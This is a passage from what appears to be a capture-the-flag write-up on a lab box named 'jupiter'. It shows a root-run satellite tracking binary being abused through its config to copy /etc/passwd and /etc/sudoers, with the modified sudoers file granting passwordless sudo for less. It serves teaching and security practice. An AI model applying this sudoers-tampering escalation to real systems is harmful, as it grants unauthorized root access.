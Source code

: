 I tried to read `/etc/passwd` to make sure I was correct:

Updated Config Snippet:

```json
{
        "tleroot": "/tmp/tle/",
        "tlefile": "weather.txt",
        "mapfile": "/usr/local/share/sattrack/map.json",
        "texturefile": "/usr/local/share/sattrack/earth.png",

        "tlesources": [
                "FILE:///etc/passwd"
        ],

...SNIP
}

```

Re-running the `sattrack` binary after updating config:

```console
jovian@jupiter:/tmp$ sudo /usr/local/bin/sattrack 
Satellite Tracking System
Get:0 FILE:///etc/passwd
Satellites loaded
No sats
jovian@jupiter:/opt/solar-flares$ ls -la /tmp/tle
total 24
drwxr-xr-x  2 root root 4096 Oct 21 08:50 .
drwxrwxrwt 16 root root 4096 Oct 21 08:54 ..
-rw-r--r--  1 root root 2045 Oct 21 08:50 passwd
-rw-r--r--  1 root root    9 Oct 21 08:40 weather.txt

```

The `/etc/passwd` file was copied to the `tleroot` location and kept the same name. So we now appear to have access to copy/move any file as `root`.

There are many different ways we could abuse this to get a `root` shell, I went with changing the `sudoers` file. By changing `sudoers` we can give jovianpermission to run any command we want as `root` without a password.

### Sudoers Edit

First, we run `sattrack` with an updated config file to get a copy of the `/etc/sudoers` file in the `/tmp/tle` directory. Then we edit the `sudoers` file to give our user `jovian` sudo permissions to use `less`. I chose `less` for a fun example, it's not the most efficient and we could have easily just given ourselves full `sudo` powers.

Here is the updated `sudoers` file that will give our user jovian sudo permission to run `less` with no password:

```
#Defaults:%sudo env_keep += "SSH_AGENT_PID SSH_AUTH_SOCK"
# Ditto for GPG agent
#Defaults:%sudo env_keep += "GPG_AGENT_INFO"
# Host alias specification
# User alias specification
# Cmnd alias specification
# User privilege specification
root    ALL=(ALL:ALL) ALL
jovian  ALL=(ALL) NOPASSWD:/usr/local/bin/sattrack,/usr/bin/less
# Members of the admin group may gain root privileges
#%admin ALL=(ALL) ALL
# Allow members of group sudo to execute any command
#%sudo  ALL=(ALL:ALL) ALL
```